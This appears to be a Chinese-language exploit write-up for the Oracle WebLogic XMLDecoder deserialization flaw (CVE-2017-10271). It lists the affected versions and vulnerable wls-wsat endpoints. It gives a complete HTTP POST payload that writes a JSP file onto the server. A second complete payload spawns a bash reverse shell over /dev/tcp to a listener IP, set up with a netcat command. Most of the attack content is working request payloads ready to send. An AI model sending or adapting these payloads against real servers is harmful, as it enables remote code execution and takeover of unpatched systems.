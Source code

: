 ## 简介

该漏洞利用了Weblogic中的WLS Security组件对外提供的webservice服务，使用组件中的XMLDecoder来解析用户传入的XML数据，解析过程中会有反序列化的过程(XML自身就是序列化过的数据，不需要序列化XML内容就可以被反序列化），一旦在XML中有创建类对象实例的恶意代码，就可以利用该对象的方法执行恶意代码（包括写入一句话木马，执行反弹shell指令等，要看该对象的方法的作用是写入数据到某个文件还是直接执行指令）。

## 漏洞影响版本

10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0

## 漏洞触发地址

```
`/wls-wsat/CoordinatorPortType` 
`/wls-wsat/RegistrationPortTypeRPC`
`/wls-wsat/ParticipantPortType` 
`/wls-wsat/RegistrationRequesterPortType` 
`/wls-wsat/CoordinatorPortType11`
`/wls-wsat/RegistrationPortTypeRPC11` 
`/wls-wsat/ParticipantPortType11`
`/wls-wsat/RegistrationRequesterPortType11`
```

## 测试代码

通过改造HTTP为POST类型，利用CoordinatorPortType组件的java.beans.XMLDecoder类中的java.io.PrintWriter类构建一个实例，该实例的目标地址为servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp，并调用println方法向该目标地址中写入out.print("test");在通过web访问该文件时就会执行该文件中的代码。

通过访问http://ip:port/bea_wls_internal/test.jsp即可访问到该网页。

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println">
<string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

![v2-96b7b2098584b2cf034cbeb6e96c696e_1440w](CVE-2017-10271.assets/v2-96b7b2098584b2cf034cbeb6e96c696e_1440w-1712922274254.webp)

## 攻击代码（反弹shell）

监听本地端口

nc -l -p 7089

利用burp更改数据包，反弹shell

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: IP:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.206.132/7089 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

